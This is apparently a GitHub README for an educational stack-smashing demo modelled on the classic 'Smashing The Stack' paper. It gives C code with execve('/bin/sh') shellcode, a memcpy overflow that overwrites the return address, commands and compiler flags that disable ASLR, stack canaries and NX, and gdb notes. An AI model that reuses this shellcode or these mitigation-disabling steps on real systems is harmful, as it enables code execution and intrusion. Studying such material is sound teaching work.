




stacksmashdemo -- a demostration to smash the stack
=======================================================

According to the article [Smashing The Stack For Fun And Profit](https://www-inst.eecs.berkeley.edu//~cs161/fa08/papers/stack_smashing.pdf), this vulnerable Program is created for exploiting.

The Linux system and the C/C++ compiler are all updated since 1996, the first year this article is published. 
I searched for [Smashing the Stack For Fun and Profit (Today)](https://travisf.net/smashing-the-stack-today), and get the new Linux and compiler switches as follows:

Prepare
-------

* OS : Ubuntu 18.04.3 LTS x64
* The operating system performs address space randomization (ASLR), which does not prevent buffer overflows,
but makes it much harder for them to result in a successful exploit. to disable this, run

        sudo sysctl -w kernel.randomize_va_space=0
*  The C compiler uses a security mechanism called "Stack Guard", which detects and prevents buffer overflows. I disabled it in the Makefile as follows, and all this parameters are defined in Makefile:

        -m32 : compile for 32-bit
        -fno-stack-protector : to disable stack canaries
        -z execstack : to disable NX bit protection, ensure the stack is executable 
        -D_FORTIFY_SOURCE=0 : to disable FORTIFY_SOURCE

The Program
-----------
Function main defines the shellcode, and function Smash performs the exploit of stack smash.
* shellcode : implements the assemble version of "execve ("/bin/sh",NULL)",
first prepare the string terminator for "/bin/sh", and then string "/bin/sh". push both 0(xorl %eax,%eax) and "/bin/sh" into stack, point %ebx to %esp, 0 for %eax. then push %eax, %ebx, move function code 0x0b to %al and call int $0x80 to invoke the system facilities of exec.
* adjust of stack : when debugging with gdb, I found that by adjust the size of szBuffer and offset for address of shellcode, the return address for Smash will be overwritten by the shellcode. the last 4 bytes will be the address for returning, and I point it to the begin of shellcode by cast the shellcode to int*.
* Smash : copy the shellcode to a small local variable szBuffer, and the last 4 bytes of the shellcode will occupy the returning address, so when memcpy finished, the %eip will point to the begin of the shellcode.

```c++
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

#define SIZE_BUFFER_LOCAL 32
int Smash (char *pszInput,int nSize)
{
    char szBuffer[SIZE_BUFFER_LOCAL/2] = {0};
    memcpy (szBuffer,pszInput,nSize);
    return 0;
}
int main (int argc,char **argv)
{
    char shellcode[SIZE_BUFFER_LOCAL] = /*execve ("/bin/sh",NULL)*/
    "\x31\xc0"          /* xorl %eax,%eax */
    "\x50"              /* pushl %eax */
    "\x68""//sh"        /* pushl $0x68732f2f */
    "\x68""/bin"        /* pushl $0x6e69622f */
    "\x89\xe3"          /* movl %esp,%ebx */
    "\x50"              /* pushl %eax */
    "\x53"              /* pushl %ebx */
    "\xb0\x0b"          /* movb $0x0b,%al */
    "\xcd\x80"          /* int $0x80 */
    ;
    *((int*)(&shellcode[SIZE_BUFFER_LOCAL-4])) = (int)shellcode;/*To overwrite the returning address*/
    Smash (shellcode,SIZE_BUFFER_LOCAL);
    printf ("After calling Smash:%s\n",shellcode);
    return 0;
}
```

Run
---
* make
* ./stacksmashdemo


Limitations
-----------

* Only for 32 bit systems
* Only valid for Ubuntu 18.04.1 with gcc 7.5.0 (Ubuntu 7.5.0-3ubuntu1~18.04)
* For other environment, size of szBuffer and the following line maybe changed
```
    *((int*)(&shellcode[SIZE_BUFFER_LOCAL-4])) = (int)shellcode;
```

Debug
-----
* Before smash, the address of variable szBuffer is in $edx : 0xffffd0a0, and $esp : 0xffffd0c0


* After smash, the returning address(0xffffd0c0) is overwritten by 0xffffd0dc, the begin of the shellcode(shellcode) in main


* Stepping into the shellcode to inspect the executing of shellcode.


* Result : when running ./stacksmashdemo successfully, a shell will be created, instead of printing a message.

